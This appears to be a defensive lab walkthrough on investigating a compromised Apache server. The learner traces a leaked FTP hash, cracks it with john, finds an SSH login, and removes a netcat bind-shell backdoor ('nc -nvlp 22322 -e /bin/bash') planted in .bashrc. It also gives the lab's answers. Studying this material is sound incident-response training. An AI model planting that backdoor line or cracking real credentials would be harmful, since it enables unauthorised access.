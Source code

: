 # Log Analysis

Any machine exposed to the Internet is at risk of getting compromised. Detecting these attack attempts, even if they are not successful, is crucial for securing servers, hosts or any other asset. When access is gained into a potentially compromised machine, the first thing that should be done is to figure out the attack vectors that could have been used to compromise the device. Since the machine is running a web server, checking logs related to HTTP requests could disclose any malicious activity.

To check the website open a browser window and search for `http://hdmovies.ca`

The website is being hosted in an Apache web server, and the best place to check the web traffic is the Apache access log, which contains all recorded data for requests processed by the Apache server. To do that, go to _/var/log/apache2_ and read the access.log.
`sudo cat /var/log/apache2/access.log.1

Sort the logs and look for anything suspicious. Focus on uncommon User Agents or files that do not appear to be web resources.

What is the name of suspicious file? `dailytraffic.pcapng`
# Analyzing compromised files

After finding the files accessed by the attacker, download it to _/home/kali_ to start analyzing it.
`wget http://hdmovies.ca/filename

Now, it has been determined that the file the attacker downloaded from the server is a **.pcapng** file. **PCAPNG** (Packet Capture Next Generation) file format is related to captured data packets over a network.

To open Wireshark and analyze the downloaded File, use the following command:
`sudo wireshark filename

Start analyzing the traffic for any potentially leaked information that the attacker could have found and used. In the display it is shown that some FTP traffic was captured. Some versions of FTP are not safe to use because they rely on plain text usernames and passwords for authentication and do not use encryption. Following a certain stream, a packet has a leaked file which contains content in plain text.

You can also apply a display filter in wireshark: ftp-data

Right click at hash and go to Follow > TCP Stream and Save As it in _/home/kali/leaked_hash.txt_.

What is the username found in the leaked file? `admin`
# Assessing credential strength

Try and find out if the hash found is weak and if the attacker could have used methods like brute forcing to crack it. Rainbow table attacks are one of the ways used for breaking hash-based authentication. Hash values of most common passwords are generated and stored in files known as rainbow tables. When the plaintext version of a hashed password is needed, the hash gets compared to all the values in that table. One tool that performs such an attack is john. To use it, open the terminal and type the following command:
`john --wordlist=/usr/share/wordlists/rockyou.txt leaked_hash.txt > crackedpassword.txt

Save the output to a new _crackedpassword.txt_ file. Read the file to see if any hash got cracked.

After cracking the file, what is the user's password? `admin`
# Analyzing the intruder's attack pattern

After figuring out that the attacker probably cracked the admin hash, it is safe to assume that those credentials were used to gain access to the system. Let's find out what service the attacker used to log in to the machine. The best approach is to check all running services and see if any of them could provide an entrypoint for the attacker. To do that, use the following command:
`service --status-all

This command will show all the services and their status.

_Secure Shell (SSH)_ is cryptographic protocol that allows secure remote access to a host. If an attacker finds valid credentials, they could gain access to the host via SSH. To check the SSH connection established, read the _/var/log/lastlog_ file.
`cat /var/log/lastlog

From which IP address was the SSH connection established? `172.20.0.7`
# Persistence Investigation

As it is shown, in the previous step there was a SSH connection from the same IP that downloaded the _.pcapng_ file from the server.

For mitigation purposes, it is good practice to shut down any running service that might have been compromised.

Now that it is validated that the attacker gained access to the machine, it is crucial to find further damage that might have occurred. Commonly, after an attacker gains access, they will look to place persistence or backdoors on the machine to allow them to have access at all times. Use the _ps -aux_ command to check all running processes and look out for any suspicious process.
`ps -aux

Reading through the output, a command is displayed that is running **netcat** and listening in **port _22322_**, which executes _/bin/bash_, allowing the attacker to interact with a bash session:

This means that the attacker is using this port to connect to the machine persistently. To find out which script or process is initiating **_nc_**, use `ack`. This tool will look through all the system files to find a specific pattern. The pattern in this case is the `nc` command shown below:
`ack 'nc -nvlp 22322 -e /bin/bash'

The '_nc -nvlp 22322 -e /bin/bash'_ command seems to be executed by the .bashrc file which is a script that gets executed each time a bash session is started. To confirm this, go to _.bashrc_ and read the file. Remove the backdoor by locating the _nc_ command and deleting it.

Where is the .bashrc file located? `/home/kali/.bashrc`
# Terminating the attacker's persistent connection

Be cautious! Even after deleting the backdoor command from the _/home/kali/.bashrc_ file, the process will still run, so kill the process using the kill command. This command allows for process termination based on the process ID. The netstat command executed in the previous step showed the process _ID (PID)_ of the netcat backdoor. Use that ID to terminate the backdoor connection.
`kill ID

Check if the process has been killed by using sudo netstat -tulpn:
`netstat -tulpn